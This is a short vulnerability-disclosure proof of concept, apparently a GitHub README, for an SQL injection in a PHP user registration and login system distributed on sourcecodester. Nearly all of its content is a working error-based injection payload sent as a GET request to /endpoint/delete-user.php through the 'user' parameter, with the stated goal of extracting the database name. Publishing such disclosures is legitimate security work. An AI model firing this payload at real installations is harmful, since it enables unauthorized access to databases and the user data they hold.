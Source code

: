 # user-registration-and-login-system-SQLi-PoC
SQL injection vulnerability PoC for (User Registration and Login System by rems)

Author : Abdelhamid Aghamir

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html

Vulnerability File: /endpoint/delete-user.php

[+] PoC:
Send a get request to the endpoint with the given payload to retrieve the database name ! 

/endpoint/delete-user.php?user=1' AND EXTRACTVALUE(4432,CONCAT(0x5c,0x716b767671,(SELECT (CASE WHEN (ISNULL(JSON_STORAGE_FREE(NULL))) THEN 1 ELSE 0 END)),0x7171787171))-- XXX

